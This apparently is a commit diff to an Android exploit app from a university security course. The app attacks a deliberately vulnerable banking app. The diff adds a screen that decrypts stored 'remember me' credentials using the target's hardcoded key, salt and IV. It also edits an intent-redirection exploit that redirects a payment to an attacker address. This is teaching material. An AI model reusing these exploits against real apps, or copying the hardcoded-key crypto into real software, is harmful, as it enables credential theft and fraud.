
After one commit to ZHAW-Infosec-Research-Group/DIMBA, an Android app: the ActivityRememberMe screen opened directly, with no data from a screen before it, on a phone screen of 412 x 824 dp. The commit adds this screen. Shown: the top 694 px of the screen. Run offline under Robolectric (Android 15) with nearby library versions, the phone set to English and light mode, and no system bars.

Commit message:
added RememberMe solution to DIBA exploit

```diff
--- a/DIBA_exploit/app/src/main/AndroidManifest.xml
+++ b/DIBA_exploit/app/src/main/AndroidManifest.xml
@@ -12,7 +12,8 @@
         android:roundIcon="@mipmap/ic_launcher"
         android:supportsRtl="true"
         android:theme="@style/AppTheme">
-        <activity android:name=".ActivityInsecureServices"></activity>
+        <activity android:name=".ActivityRememberMe"></activity>
+        <activity android:name=".ActivityInsecureServices" />
         <activity
             android:name=".ActivityExportedContentProvider"
             android:label="Exported Content Provider" />
--- a/DIBA_exploit/app/src/main/java/ch/zhaw/securitylab/DIBA_exploit/ActivityClipboardLog.java
+++ b/DIBA_exploit/app/src/main/java/ch/zhaw/securitylab/DIBA_exploit/ActivityClipboardLog.java
@@ -12,8 +12,6 @@ import android.widget.ListView;
 
 import androidx.appcompat.app.AppCompatActivity;
 import androidx.appcompat.widget.Toolbar;
-
-import java.util.ArrayList;
 import java.util.List;
 
 import ch.zhaw.securitylab.DIBA_exploit.ServiceClipboardSpy.LocalBinder;
--- a/DIBA_exploit/app/src/main/java/ch/zhaw/securitylab/DIBA_exploit/ActivityIntentRedirection.java
+++ b/DIBA_exploit/app/src/main/java/ch/zhaw/securitylab/DIBA_exploit/ActivityIntentRedirection.java
@@ -15,11 +15,9 @@ public class ActivityIntentRedirection extends AppCompatActivity {
 		super.onCreate(savedInstanceState);
 		setContentView(R.layout.activity_pay_intercepter);
 
-		System.out.println("PayInterceptor started1");
-
 		Intent intent = getIntent();
 
-		intent.putExtra("auth_pay_amountSFr", "1000");
+		intent.putExtra("auth_pay_amount_sfr", "1000");
 		intent.putExtra("auth_pay_target", "attacker@mail.com");
 
 		String packageName = "ch.zhaw.securitylab.DIBA";
--- /dev/null
+++ b/DIBA_exploit/app/src/main/java/ch/zhaw/securitylab/DIBA_exploit/ActivityRememberMe.java
@@ -0,0 +1,107 @@
+package ch.zhaw.securitylab.DIBA_exploit;
+
+import android.util.Base64;
+
+import java.security.spec.KeySpec;
+import javax.crypto.Cipher;
+import javax.crypto.SecretKey;
+import javax.crypto.SecretKeyFactory;
+import javax.crypto.spec.IvParameterSpec;
+import javax.crypto.spec.PBEKeySpec;
+import javax.crypto.spec.SecretKeySpec;
+import android.os.Bundle;
+import android.view.View;
+import android.widget.Button;
+import android.widget.TextView;
+
+import androidx.appcompat.app.AppCompatActivity;
+
+
+public class ActivityRememberMe extends AppCompatActivity {
+
+    @Override
+    protected void onCreate(Bundle savedInstanceState) {
+        super.onCreate(savedInstanceState);
+        setContentView(R.layout.activity_remember_me);
+        Button button = findViewById(R.id.decryptButton);
+        button.setOnClickListener(decryptButton());
+    }
+
+    private View.OnClickListener decryptButton() {
+        return (View v) -> {
+            TextView textviewEncrypt = (TextView) findViewById(R.id.encrypt);
+            String ciphertext = textviewEncrypt.getText().toString();
+            String cleartext = decrypt(ciphertext);
+
+            TextView textviewDecrypt = (TextView) findViewById(R.id.decrypt);
+            textviewDecrypt.setText(cleartext);
+        };
+    }
+
+    private static final String REMEMBER_ME = "rememberMe";
+
+    private static String convert(String paramString, int paramInt) {
+
+        Cipher localCipher = getCipher(paramInt, getSecretKey());
+        byte[] arrayOfByte = paramString.getBytes();
+        byte[] paramByte;
+        if (paramInt == 2)
+        {
+            arrayOfByte = Base64.decode(paramString, 0);
+        }
+        try
+        {
+            paramByte = localCipher.doFinal(arrayOfByte);
+            if (paramInt == 1)
+            {
+                return Base64.encodeToString(paramByte, 2);
+            }
+            paramString = new String(paramByte);
+            return paramString;
+        }
+        catch (Exception e)
+        {
+            throw new RuntimeException(e);
+        }
+    }
+
+    public static String decrypt(String paramString)
+    {
+        return convert(paramString, 2);
+    }
+
+    public static String encrypt(String paramString)
+    {
+        return convert(paramString, 1);
+    }
+
+    private static Cipher getCipher(int paramInt, SecretKey paramSecretKey)
+    {
+        IvParameterSpec localIvParameterSpec = new IvParameterSpec("1234567890abcdef".getBytes());
+        try
+        {
+            Cipher localCipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
+            localCipher.init(paramInt, paramSecretKey, localIvParameterSpec);
+            return localCipher;
+        }
+        catch (Exception e)
+        {
+            throw new RuntimeException(e);
+        }
+    }
+
+    private static SecretKey getSecretKey()
+    {
+        Object localObject = "ababababababababababab".getBytes();
+        try
+        {
+            localObject = new PBEKeySpec("rememberMe".toCharArray(), (byte[]) localObject, 1000, 256);
+            localObject = new SecretKeySpec(SecretKeyFactory.getInstance("PBEWithSHA256And256BitAES-CBC-BC").generateSecret((KeySpec) localObject).getEncoded(), "AES");
+            return (SecretKey) localObject;
+        }
+        catch (Exception localException)
+        {
+            throw new RuntimeException(localException);
+        }
+    }
+}
--- a/DIBA_exploit/app/src/main/java/ch/zhaw/securitylab/DIBA_exploit/MainExploitActivity.java
+++ b/DIBA_exploit/app/src/main/java/ch/zhaw/securitylab/DIBA_exploit/MainExploitActivity.java
@@ -1,5 +1,6 @@
 package ch.zhaw.securitylab.DIBA_exploit;
 
+import android.app.Activity;
 import android.content.ComponentName;
 import android.content.Intent;
 import android.content.ServiceConnection;
@@ -101,8 +102,10 @@ public class MainExploitActivity extends AppCompatActivity implements Navigation
 		int id = item.getItemId();
 		Intent intent = null;
 
+		if (id == R.id.remember_me) {
+			intent = new Intent(this, ActivityRememberMe.class);
 		// [5] CLIPBOARD DANGER
-		if (id == R.id.clipboard_log) {
+		} else if (id == R.id.clipboard_log) {
 			intent = new Intent(this, ActivityClipboardLog.class);
 		// [6] EXPORTED CONTENT PROVIDER
 		// ONCE DONE, VULNERABLE ALSO TO [7] INTENT REDIRECTION
@@ -183,7 +186,6 @@ public class MainExploitActivity extends AppCompatActivity implements Navigation
 			service = AidlServiceCurrencyExchange.Stub.asInterface(localService);
 			bound = true;
 		}
-
 		// Called when the connection with the service disconnects unexpectedly
 		public void onServiceDisconnected(ComponentName className) {
 			service = null;
--- /dev/null
+++ b/DIBA_exploit/app/src/main/res/layout/activity_remember_me.xml
@@ -0,0 +1,57 @@
+<?xml version="1.0" encoding="utf-8"?>
+<androidx.constraintlayout.widget.ConstraintLayout xmlns:android="http://schemas.android.com/apk/res/android"
+    xmlns:app="http://schemas.android.com/apk/res-auto"
+    xmlns:tools="http://schemas.android.com/tools"
+    android:layout_width="match_parent"
+    android:layout_height="match_parent"
+    tools:context=".ActivityRememberMe">
+
+    <TextView
+        android:id="@+id/RememberMe"
+        android:layout_width="310dp"
+        android:layout_height="68dp"
+        android:layout_marginTop="68dp"
+        android:text="Remember Me"
+        android:textSize="14pt"
+        app:layout_constraintEnd_toEndOf="parent"
+        app:layout_constraintHorizontal_bias="0.504"
+        app:layout_constraintStart_toStartOf="parent"
+        app:layout_constraintTop_toTopOf="parent"
+        android:gravity="center_horizontal" />
+
+    <EditText
+        android:id="@+id/encrypt"
+        android:layout_width="310dp"
+        android:layout_height="68dp"
+        android:layout_marginTop="30dp"
+        android:text="Insert the text to decrypt"
+        app:layout_constraintEnd_toEndOf="parent"
+        app:layout_constraintHorizontal_bias="0.504"
+        app:layout_constraintStart_toStartOf="parent"
+        app:layout_constraintTop_toBottomOf="@+id/RememberMe" />
+
+    <Button
+        android:id="@+id/decryptButton"
+        android:layout_width="wrap_content"
+        android:layout_height="wrap_content"
+        android:layout_marginStart="261dp"
+        android:layout_marginLeft="261dp"
+        android:layout_marginEnd="62dp"
+        android:layout_marginRight="62dp"
+        android:layout_marginTop="40dp"
+        android:text="Decrypt"
+        app:layout_constraintEnd_toEndOf="parent"
+        app:layout_constraintStart_toStartOf="parent"
+        app:layout_constraintTop_toBottomOf="@+id/encrypt"/>
+
+    <TextView
+        android:id="@+id/decrypt"
+        android:layout_width="310dp"
+        android:layout_height="68dp"
+        android:layout_marginTop="40dp"
+        android:text="Decrypted text..."
+        app:layout_constraintEnd_toEndOf="parent"
+        app:layout_constraintStart_toStartOf="parent"
+        app:layout_constraintTop_toBottomOf="@+id/decryptButton" />
+
+</androidx.constraintlayout.widget.ConstraintLayout>
--- a/DIBA_exploit/app/src/main/res/layout/content_clipboard_log.xml
+++ b/DIBA_exploit/app/src/main/res/layout/content_clipboard_log.xml
@@ -15,6 +15,5 @@
             android:layout_height="0dp"
             app:layout_constraintBottom_toBottomOf="parent" app:layout_constraintTop_toTopOf="parent"
             app:layout_constraintEnd_toEndOf="parent"
-            app:layout_constraintStart_toStartOf="parent"
-    />
+            app:layout_constraintStart_toStartOf="parent" />
 </androidx.constraintlayout.widget.ConstraintLayout>
--- a/DIBA_exploit/app/src/main/res/menu/activity_main_exploit_drawer.xml
+++ b/DIBA_exploit/app/src/main/res/menu/activity_main_exploit_drawer.xml
@@ -2,6 +2,9 @@
 <menu xmlns:android="http://schemas.android.com/apk/res/android">
 
     <group android:checkableBehavior="single">
+        <item
+            android:id="@+id/remember_me"
+            android:title="[3] Remember Me"/>
         <item
             android:id="@+id/clipboard_log"
             android:title="[5] Clipboard Danger"/>
```
Also changed, not shown: DIBA_exploit/app/src/main/java/ch/zhaw/securitylab/DIBA_exploit/RememberMe.java (deleted, +0 -84 lines), DIBA_exploit/app/src/main/res/layout/activity_clipboard_log.xml (+0 -7 lines), 7 other files.
